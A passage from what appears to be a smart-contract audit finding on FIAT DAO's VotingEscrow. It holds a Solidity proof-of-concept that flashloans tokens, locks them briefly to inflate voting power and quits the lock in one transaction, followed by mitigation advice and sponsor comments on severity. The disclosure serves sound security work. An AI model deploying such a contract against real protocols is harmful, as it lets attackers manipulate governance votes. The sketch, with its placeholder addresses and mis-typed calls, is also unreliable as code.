     contract VotingEscrowAttack {
        IERC20 constant token = IERC20(0x...); // the token used in the VotingEscrow contract
        IVotingEscrow constant votingEscrow = IVotingEscrow(0x...); // the address of the VotingEscrow contract
    
        uint constant WEEK = 1 weeks;
        uint constant MAXTIME = 365 days;
        uint constant MAXPENALTY = 10**18;
    
        uint constant PENALTY_RATE = (WEEK * MAXPENALTY) / MAXTIME;
    
        IFlashLoan constant flashloanContract = IFlashLoan(0x...); // the address of the flashloan provider
    
        function attack(uint amount) external {
            uint penalty = (amount * PENALTY_RATE) / (10 ** 18);
            token.transferFrom(msg.sender, penalty); // assuming no flashloan fee
            IFlashLoan.flashloan(token, amount);
        }
    
        function flashloanCallback(uint amount) {
            votingEscrow.createLock(amount, block.timestamp + WEEK); // create a lock for a week with a very large of token
    
            // do whatever you want with your large amount of votes
            
            votingEscrow.quitLock();
            token.transfer(msg.sender, amount); // pay back the flashloan
        }
    }

*   The function names, arguments and return values might not be accurate and might change depends on the used flashloan platform, but this contract is just to give a general idea of an attack vector.

### [](#tools-used-3)Tools Used

Manual auditing - VS Code and me :)

### [](#recommended-mitigation-steps-9)Recommended Mitigation Steps

Think about implementing a mechanism that prevents users from creating a lock and quitting it in the same transaction, that way attackers won’t be able to use flashloan in order to achieve large voting power. However, regular loans will still be a problem with that fix, and if this isn’t a wanted behavior, additional fix is needed to be thought of.

**[lacoop6tu (FIAT DAO) acknowledged](https://github.com/code-423n4/2022-08-fiatdao-findings/issues/237)**

**[elnilz (FIAT DAO) disagreed with severity and commented](https://github.com/code-423n4/2022-08-fiatdao-findings/issues/237#issuecomment-1219290756):**

> We actually could mitigate the issue by restricting increasing voting power and quitting in the same block. This would make the implementation safer.
> 
> But even then, the severity is rather 2 as funds are not directly at risk.
